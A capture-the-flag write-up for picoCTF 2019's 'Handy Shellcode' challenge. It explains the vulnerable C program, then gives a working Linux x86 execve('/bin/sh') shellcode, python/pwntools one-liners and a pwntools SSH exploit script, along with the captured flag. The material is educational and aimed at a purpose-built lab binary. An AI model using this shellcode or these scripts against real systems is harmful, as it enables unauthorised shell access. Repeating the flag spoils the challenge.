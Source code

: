# PicoCTF19 Handy Shellcode

## Challenge

This [program](https://2019shell1.picoctf.com/static/55d1e7f761111a3cf6eec259e5dc44f8/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode on the shell server. [Source](https://2019shell1.picoctf.com/static/55d1e7f761111a3cf6eec259e5dc44f8/vuln.c).

## Hints

You might be able to find some good shellcode online.

## Solution

Let's view that directory:

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ ls -al
total 732
drwxr-xr-x   2 root       root                4096 Sep 28 21:53 .
drwxr-x--x 684 root       root               69632 Oct 10 18:02 ..
-r--r-----   1 hacksports handy-shellcode_5     39 Sep 28 21:53 flag.txt
-rwxr-sr-x   1 hacksports handy-shellcode_5 661832 Sep 28 21:53 vuln
-rw-rw-r--   1 hacksports hacksports           624 Sep 28 21:53 vuln.c
```
As my user is currently `samson` and I am not in that handy-shellcode_5 group, I cannot `cat` the file `flag.txt`. Let's take a look at the source code.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){
  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];
  puts("Enter your shellcode:");
  vuln(buf);
  puts("Thanks! Executing now...");
  ((void (*)())buf)();
  puts("Finishing Executing Shellcode. Exiting now...");
  return 0;
}
```

It seems like it's almost prompting us to enter shellcode and execute it. More precisely, it takes in our input and echos it out with the `gets()` and `puts()` function calls.

Then we have this line here:
```
  ((void (*)())buf)();
```
This takes `buf`, casts it to the void function pointer which returns nothing and then runs that function. So it'll execute whatever is at the address for `buf`.

Let's test our assumptions....

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ ./vuln
Enter your shellcode:
A    
A
Thanks! Executing now...
Segmentation fault (core dumped)
```

So what is shellcode? Basically it's raw assembly code to be executed.

So let's go to a handy website full of these shellcodes: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)

But before we decide which shellcode to use, we need to know our end goal. We want to drop into a shell that will let us `cat` or `print` the file `flag.txt`.

Let's start with dropping into a shell, is there a shellcode for `/bin/sh`.... Yes.

---

Let's use this one: [http://shell-storm.org/shellcode/files/shellcode-811.php](http://shell-storm.org/shellcode/files/shellcode-811.php)

```
/*
Title:	Linux x86 execve("/bin/sh") - 28 bytes
Author:	Jean Pascal Pereira <pereira@secbiz.de>
Web:	http://0xffe4.org


Disassembly of section .text:

08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80



*/

#include <stdio.h>

char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                   "\x68\x68\x2f\x62\x69\x6e\x89"
                   "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                   "\xcd\x80\x31\xc0\x40\xcd\x80";

int main()
{
  fprintf(stdout,"Lenght: %d\n",strlen(shellcode));
  (*(void  (*)()) shellcode)();
}

```

So we can see that the shellcode just inserts assembly commands onto the stack, and by modifying the control flow of our code to start executing what's on the stack, we can jump into our shell.

Fun fact, the following instructions push the string that maps to the path `/bin/sh` on x86 processors.
```
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
```

But let's get that shellcode onto one line:

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

Let's try it?

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ ./vuln 
Enter your shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
Thanks! Executing now...
Segmentation fault (core dumped)
```

Wait that's not how we enter shellcode. We need the shell to interpret the `\x` as bytes not strings.

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'" | ./vuln
Enter your shellcode:
1�Ph//shh/bin����°
                 ̀1�@̀
Thanks! Executing now...
```

Awesome it worked but it won't hold a shell for us, so let's use `cat`. To recap, if you `cat file.txt`, it'll just print out the contents of the file. However, if you just type `cat`, it will echo back whatever input you give it until you quit the program. Let's try it out.

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat) | ./vuln
Enter your shellcode:
1�Ph//shh/bin����°
                 ̀1�@̀
Thanks! Executing now...
id
uid=30646(samson) gid=8874(handy-shellcode_5) groups=8874(handy-shellcode_5),1002(competitors),30647(samson)
ls -al      
total 732
drwxr-xr-x   2 root       root                4096 Sep 28 21:53 .
drwxr-x--x 684 root       root               69632 Oct 10 18:02 ..
-r--r-----   1 hacksports handy-shellcode_5     39 Sep 28 21:53 flag.txt
-rwxr-sr-x   1 hacksports handy-shellcode_5 661832 Sep 28 21:53 vuln
-rw-rw-r--   1 hacksports hacksports           624 Sep 28 21:53 vuln.c
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}
```

## Flag

`picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}`

## Alternative solution

The PicoCTF Shell comes with Python and Pwntools preinstalled so we could have leveraged this as well.

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ (python -c "import pwn; print(pwn.asm(pwn.shellcraft.linux.sh()))"; cat) | ./vuln
Enter your shellcode:
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
Thanks! Executing now...
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}
```

## Alternative 2

With this alternative, we use pwntools from our local machine to attach and exploit remotely. 

In this example, we use pwntools to ssh, then send in the prebuilt shellcode, print out the flag, and then drop the user into the shell.

```python
#!/usr/bin/env python
from pwn import *
import sys

REMOTE = True

if __name__ == "__main__":
    if REMOTE:
        s = ssh(host='2019shell1.picoctf.com', user='samson', password="REDACTED", port=22)
        sh = s.process('/problems/handy-shellcode/vuln')
    else:
        sh = process("./vuln", stdout=process.PTY, stdin=process.PTY)

    sh.sendlineafter(':\n', asm(shellcraft.linux.sh()))
    sh.sendlineafter('$ ', 'cat /problems/handy-shellcode/flag.txt')
    sh.interactive()
```

```bash
$ python3.8 exploit.py  
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] samson@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Starting remote process b'/problems/handy-shellcode/vuln' on 2019shell1.picoctf.com: pid 3796916
[*] Switching to interactive mode
picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}$ $ echo "I'm in the shell now"
I'm in the shell now
$ $ whoami
samson
```